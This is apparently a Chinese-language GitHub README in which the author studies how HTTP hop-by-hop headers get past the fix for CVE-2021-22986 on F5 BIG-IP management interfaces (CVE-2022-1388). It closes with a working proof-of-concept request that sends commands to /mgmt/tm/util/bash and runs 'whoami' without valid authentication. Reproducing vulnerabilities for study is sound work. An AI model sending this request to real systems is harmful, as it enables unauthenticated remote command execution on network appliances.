

# README

## 前言

因为Java太菜了，所以更多的是复现漏洞和学习hop by hop了。

## hop by hop

需要首先知道hop by hop是什么。

hop-by-hop header 是一个 header，它被设计为由当前处理请求的代理处理和使用，而不是一个 end-to-end header，它被设计为一直存在于请求中到请求结束。

根据[RFC 2612](https://datatracker.ietf.org/doc/html/rfc2616#section-13.5.1)，HTTP/1.1 规范默认将以下标头视为逐跳：Keep-Alive、Transfer-Encoding、TE、Connection、Trailer、Upgrade、Proxy-Authorization和Proxy-Authenticate。当在请求中遇到这些标头时，代理服务器会处理这些标头所指示的任何内容，并且不会将其转发到下一个节点。

理解起来非常的简单，一个简单的例子就是：

```http
feng:123456
Connection:close
```

经过apache代理服务器代理到后端后，后端仍然可以得到feng这个http请求头的内容。

但如果这样：

```http
feng:123456
Connection:close,feng
```

这时候apache代理服务器会根据逐跳原则处理feng这个头并移除它。这时候后端就获得不到feng这个请求头。

## CVE-2021-22986的修复

CVE-2021-22986的利用需要传一个空的`X-F5-Auth-Token`头，官方修复的时候在apache httpd的auth的so进行了处理，要求`X-F5-Auth-Token`不为空。因此可以利用hop by hop，传一个任意值的`X-F5-Auth-Token`但是`Connection`中加上`X-F5-Auth-Token`，这样apache会把`X-F5-Auth-Token`移除，不影响绕过`Jetty`部分。


还有个另外的细节需要注意，就是Host的问题。这里直接放一下Y4er师傅的图：



CVE-2021-22986之后代码进行了修改，这个`X-Forwarded-Host`感觉似乎是apache根据Host加上的。

如果host中没有localhost或者127.0.0.1的话就会对`Authorization`的password部分做鉴权了。当然或者`host`为127.4.2.1并且用户名为`f5hubblelcdadmin`。

代码中还有一种情况就是`X-Forwarded-Host`为null则也是不完全的健全，因此可以利用hop by hop让apache把`X-Forwarded-Host`头去除来实现host不是localhost。

## POC

```http
POST /mgmt/tm/util/bash HTTP/1.1
Host: localhost
Content-Type: application/json
User-Agent: Mozilla/5.0 (compatible; Baiduspider/2.0; +http://www.baidu.com/search/spider.html)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close,,X-F5-Auth-Token
Authorization: Basic YWRtaW46
X-F5-Auth-Token:feng
Content-Length: 43

{"command":"run","utilCmdArgs":"-c whoami"}
```


## 参考链接

https://y4er.com/post/from-hop-by-hop-to-cve-2022-1388/

https://paper.seebug.org/1893/#0x02-poc